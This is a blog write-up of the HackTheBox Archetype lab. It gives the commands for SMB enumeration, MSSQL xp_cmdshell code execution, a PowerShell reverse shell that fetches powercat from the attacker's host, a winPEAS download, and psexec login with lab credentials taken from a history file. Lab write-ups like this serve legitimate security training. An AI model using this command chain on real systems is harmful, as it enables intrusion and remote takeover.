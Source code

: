 ```yaml
---
layout: post
title: HackTheBox Archetype
subtitle: StartingPoint Archetype Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - AD
  - OSCP
  - MSSql_RCE
sidebar:
---
```

## Summary
![](/assets/images/posts/2025-03-06-Archetype/c7aa0835353bb4a42ec1fb12fcdc3a18_MD5.jpeg)
## Target - 10.129.68.227
### Open Port
```bash
nmap -sC -sV -Pn -oN Archetype 10.129.68.227
```
![](/assets/images/posts/2025-03-06-Archetype/1e4da9b4abb6d6341988fa1a18d32841_MD5.jpeg)
### SMB Enum (Guest Auth)
```bash
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --shares
crackmapexec smb 10.129.68.227 -u 'guest' -p '' --spider backups --regex .

# ARCHETYPE\sql_svc : M3g4c0rp123
smbclient \\\\10.129.68.227\\backups -U 'guest' --password=''
get prod.dtsConfig
cat prod.dtsConfig
```

![](/assets/images/posts/2025-03-06-Archetype/d16001211c17989921ca9d7924123219_MD5.jpeg)![](/assets/images/posts/2025-03-06-Archetype/2b3979fe8f0430bac8990e09ff6483da_MD5.jpeg)

### mssql RCE
```bash
impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@10.129.68.227 -windows-auth

# xp_cmdshell 활성화
EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
# oneline reverse shell
EXEC xp_cmdshell 'powershell -c "IEX (New-Object System.Net.Webclient).DownloadString(\"http://10.10.14.11:8000/powercat.ps1\");powercat -c 10.10.14.11 -p 4444 -e powershell"';
```

![](/assets/images/posts/2025-03-06-Archetype/9c5ab89e51a73bef43ca35e9513680a4_MD5.jpeg)![](/assets/images/posts/2025-03-06-Archetype/ddd88b5c3111a3ccd4219434fe508f7a_MD5.jpeg)

### winPEAS
```powershell
iwr -uri http://10.10.14.11:8000/winPEASx64.exe -OutFile winPEAS.exe
.\winPEAS.exe

# history 열람 administrator : MEGACORP_4dm1n!!
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![](/assets/images/posts/2025-03-06-Archetype/6c6a769b01b337f5043407c95d2f9261_MD5.jpeg)![](/assets/images/posts/2025-03-06-Archetype/779e533c4fb09c41b3407c229dd160a4_MD5.jpeg)
![](/assets/images/posts/2025-03-06-Archetype/9781a5273a3edd4de922675970ed39f5_MD5.jpeg)

### impacket-psexec
```bash
# runas의 경우 reverse shell이 non-interactive 여서 Password 입력 불가
impacket-psexec administrator:MEGACORP_4dm1n\!\!@10.129.68.227
```
![](/assets/images/posts/2025-03-06-Archetype/b6f674ba7e741830131344c63efa0a6a_MD5.jpeg)
## End
![](/assets/images/posts/2025-03-06-Archetype/6440ee4900b98344e460390a8f1497a2_MD5.jpeg)